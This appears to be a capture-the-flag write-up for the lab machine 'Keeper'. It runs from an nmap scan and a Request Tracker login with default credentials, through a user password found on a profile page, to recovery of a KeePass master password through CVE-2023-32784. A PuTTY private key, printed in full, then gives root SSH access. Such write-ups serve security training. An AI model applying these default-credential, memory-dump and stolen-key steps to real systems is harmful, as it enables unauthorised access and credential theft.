

## Recon

```bash
# Nmap 7.94 scan initiated Wed Nov 22 06:51:04 2023 as: nmap -sT -sV -sC -O -p 22,80 -oA nmap/detail 10.10.11.227
Nmap scan report for 10.10.11.227
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 22 06:51:16 2023 -- 1 IP address (1 host up) scanned in 11.73 seconds
```

## Foothold

### tickets.keeper.htb

```html
<html>
  <body>
    <a href="http://tickets.keeper.htb/rt/">To raise an IT support ticket, please visit tickets.keeper.htb/rt/</a>
  </body>
</html>
```

- jump to another site
- some info

```
4.4.4+dfsg-2ubuntu1 
sales@bestpractical.com.
```

- login page: default password (bestpracticing) -> **root:password**

- find sqli: https://www.exploit-db.com/exploits/38459 [x], sqlmap [x]
- find another user



- get cred from his main page -> **lnorgaard:Welcome2023!**


## Privilege Escalation

### ssh -> lnorgaard

- basic enumeration

```bash
lnorgaard@keeper:~$ sudo -l
[sudo] password for lnorgaard:
Sorry, user lnorgaard may not run sudo on keeper.

lnorgaard@keeper:~$ uname -a
Linux keeper 5.15.0-78-generic #85-Ubuntu SMP Fri Jul 7 15:25:09 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
lnorgaard@keeper:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:c5:39 brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.10.11.227/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:c539/64 scope global dynamic mngtmpaddr
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:feb9:c539/64 scope link
       valid_lft forever preferred_lft forever
       


lnorgaard@keeper:~$ netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp6       0      0 ::1:25                  :::*                    LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
udp        0      0 127.0.0.53:53           0.0.0.0:*
udp        0      0 0.0.0.0:68              0.0.0.0:*
```

- zip file, unzip it, get two related pass-files

```bash
two special files
-rwxr-x--- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
-rwxr-x--- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
```

### lnorgaard -> root

- cracking these two files

1. [vdohney/keepass-password-dumper: Original PoC for CVE-2023-32784 (github.com)](https://github.com/vdohney/keepass-password-dumper) -> crack x.dmp to get some ambiguous master password

```
$ cat passwds
●ødgrød med fløde
●Ïdgrød med fløde
●,dgrød med fløde
●ldgrød med fløde
●`dgrød med fløde
●-dgrød med fløde
●'dgrød med fløde
●]dgrød med fløde
●§dgrød med fløde
●Adgrød med fløde
●Idgrød med fløde
●:dgrød med fløde
●=dgrød med fløde
●_dgrød med fløde
●cdgrød med fløde
●Mdgrød med fløde
```

2. google it based on the concrete text -> get a meaningful phrase -> **rødgrød med fløde**


3. crack x.kdbx to get putty-format private key


4. use puttygen based on private key to generate ssh private key

```bash
$ cat key
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0

$ puttygen key -O private-openssh -o id_rsa

$ chmod 600 id_rsa
```

5. ssh root using this private key, id_rsa

```bash
$ ssh -i id_rsa root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# ls
root.txt  RT30000.zip  SQL
```

